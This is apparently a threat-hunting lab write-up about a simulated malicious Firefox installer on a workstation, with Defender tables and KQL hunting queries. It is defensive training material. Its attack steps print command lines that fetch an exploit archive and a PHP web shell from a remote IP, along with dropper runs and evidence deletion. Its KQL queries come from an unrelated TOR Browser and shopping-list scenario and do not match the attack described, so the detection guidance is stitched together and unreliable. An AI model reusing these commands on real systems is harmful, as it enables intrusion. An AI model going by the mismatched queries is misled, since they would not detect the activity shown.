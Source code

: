 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Downloaded a modified Firefox installer disguised as a legitimate file: ```Firefox Installer.exe``` saved under ```C:\Users\employee0\Downloads\```.

2. Executed the installer silently through ```setup-stub.exe``` with custom arguments: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/exploit.zip```

3. Executed again using a different payload hosted on a remote web server: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php```

4. Multiple dropper executions occurred via ```download.exe``` in quick succession, indicating staged infection:                                    ```"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\config.ini```

5. ```Firefox.exe``` was later deleted from the installation directory to remove evidence:                                                              ```ActionType: FileDeleted
FileName: firefox.exe
FolderPath: C:\Program Files\Mozilla Firefox\
InitiatingProcessCommandLine: setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php```

6. These actions created multiple temporary and malicious profile directories ```(Temp\MalProfile)``` to host payloads and connect to remote command servers.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table|
| **Purpose**| Used to detect Firefox installer downloads, temporary profile creation, and file deletion (covering tracks). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect ```download.exe```, ```setup-stub.exe```, and malicious command-line arguments used to install and execute payloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect external web connections initiated by Firefox and setup-stub to remote IPs (e.g., 172.203.80.23).|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 06, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 06, 2025`  | `Antonio Francisco`   
